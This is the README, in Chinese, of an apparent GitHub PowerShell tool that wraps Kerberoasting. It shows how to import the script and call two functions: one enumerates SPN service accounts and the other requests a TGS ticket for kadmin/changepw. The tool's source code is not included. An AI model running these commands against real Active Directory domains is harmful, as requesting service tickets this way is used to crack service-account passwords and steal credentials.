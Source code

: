 # Kerberos.ps1

该脚本是简单封装的Kerberostring利用脚本，即获取SPN服务账户和获取请求票据的操作

```
Import-Module .\kerberos.ps1
```

```
# 获取SPN服务账户
Frail-Spns
# 请求服务票据TGS
Inject-Ticket kadmin/changepw
```
[image][https://github.com/CobaltZirs0n/Kerberosting/blob/main/kerberos/images/image-20210421212008760.png]





